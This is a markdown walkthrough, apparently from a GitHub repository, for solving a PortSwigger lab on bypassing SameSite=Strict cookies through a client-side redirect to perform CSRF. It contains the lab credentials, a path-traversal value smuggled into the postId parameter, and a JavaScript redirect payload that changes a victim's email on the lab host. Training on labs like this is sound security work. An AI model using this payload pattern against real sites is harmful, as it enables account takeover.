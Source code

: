 ## Welcome, my friend. Today we will start the [8. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-bypassing-samesite-restrictions-using-on-site-gadgets/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect#) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/b4f036cf-dcfb-4055-bda6-404e73dd0e19)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/5019eab7-cb65-4633-abe6-23c3d5a4e23c)




### Let's go to my account and change our email to ``` hacker@gmail.com```:
![image](https://github.com/user-attachments/assets/f874a8c9-8cf8-4159-97ff-3f03d5bd4150)

### Ok, Change request method:
![image](https://github.com/user-attachments/assets/6b9eb55f-f45a-4b51-a49b-1a5820a05dbf)

### Let's go to blog and add comment, we will notice this request in burp suite:
![image](https://github.com/user-attachments/assets/2088b0d1-24d9-439e-a68b-6c9a7c41441b)

### We add ```/../my-account```:
![image](https://github.com/user-attachments/assets/b78c4d34-3e7f-468e-92b2-de7257127c19)

### we add this:

```
/../my-account/change-email?email=hacker%40gmail.com&submit=1
```

![image](https://github.com/user-attachments/assets/423adce1-6960-4b16-ad08-b29b916a8067)


### Now, Go to exploit server and paste this code:


```
<script>
    document.location = "https://0abb00410490daf781ea0cad009000d4.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=mohamed@gmail.com%26submit=1";
</script>
```

![image](https://github.com/user-attachments/assets/a83a5456-8259-4a8a-a230-c07744137d07)





-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/0e201d77-2ed1-417f-a230-41a7a6e14a2e" >
</p>
